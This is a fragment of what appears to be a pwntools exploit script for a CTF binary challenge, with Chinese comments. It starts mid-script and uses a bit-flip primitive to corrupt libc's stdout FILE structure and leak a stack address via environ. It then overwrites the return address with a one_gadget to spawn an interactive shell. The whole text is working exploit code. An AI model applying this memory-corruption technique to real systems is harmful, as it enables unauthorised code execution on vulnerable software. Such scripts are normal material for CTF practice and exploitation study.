flipma(flips - stdin, 7)   #ipma(9,9) # 增加 可用次数


# bit 
# 下面写的很精妙
def write(a, old, new):
    for i in range(8):
        for j in range(8):
            if (old >> (i*8+j)) & 1 != (new >> (i*8+j)) & 1: # 0b11111111
                flipma( a+i - stdin, j)


lss('elf_base')
lss('libc_base')
lss('flips')

write(libc.sym._IO_2_1_stdout_+8*2, libc.sym._IO_2_1_stdout_+131, libc.sym.environ-8)
write(libc.sym._IO_2_1_stdout_+8*4, libc.sym._IO_2_1_stdout_+131, libc.sym.environ-8)
write(libc.sym._IO_2_1_stdout_+8*5, libc.sym._IO_2_1_stdout_+131, libc.sym.environ+8)
#gdb.attach(io)

flipma(1,8)
ru('\x00'*8)
stack = uu64(r(8)) - 0x120

lss('stack')

ogg = libc_base + 0xeb58e # [rbp - 0x48]
ogg = libc_base + 0xeb5eb # [rbp - 0x48]
lss('libc_base')
write(stack, libc_base + 164048, ogg)
write(stack-8, 1, flips+87)

# 0x7fb0
# 0x7fb9


write(flips-1, 0x7fb9, 7)
#gdb.attach(io,'brva 0x1350')

for i in range(0x30):
        sl('1')
        sl('1')


itr()
```

‍
